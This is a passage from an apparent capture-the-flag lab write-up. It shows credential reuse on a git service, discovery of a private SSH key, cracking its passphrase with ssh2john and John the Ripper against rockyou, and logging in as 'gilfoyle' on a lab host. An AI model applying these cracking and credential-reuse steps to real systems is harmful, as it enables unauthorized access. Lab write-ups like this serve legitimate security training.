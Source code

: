 Awesome! More credentials. I wonder if any of these will work for the web server? Let's try logging into the git management service with these new credentials.

Gilfoyle! Of all the people I wouldn't have expected to re-use credentials, it was you? Even Erlich didn't re-use his for the git management service! Anyway, a bit of clicking around reveals a new private repository. And in this repository... an ssh key! More credentials, yikes, but at least this repo is private. Let's try and use this new key, taking a look at the public key, it looks like he used the username "gilfoyle".
```
$ ssh -i ssh_gilfoyle gilfoyle@10.10.10.110

  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/

Enter passphrase for key 'keys/ssh_gilfoyle':
```
<br />

Ah, a password. No matter. Let's get cracking.
```
$ /usr/share/john/ssh2john.py ssh_gilfoyle > ssh_gilfoyle.hash
$ john ssh_gilfoyle.hash --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 16 for all loaded hashes
Will run 12 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
```
<br />

Wow, nothing? I guess we'll try the password he re-used for the git service, since the guys at Pied Piper seem to like re-using credentials.
```
$ ssh -i keys/ssh_gilfoyle gilfoyle@10.10.10.110


  .   *   ..  . *  *
*  * @()Ooc()*   o  .
    (Q@*0CG*O()  ___
   |\_________/|/ _ \
   |  |  |  |  | / | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | | | |
   |  |  |  |  | \_| |
   |  |  |  |  |\___/
   |\_|__|__|_/|
    \_________/



```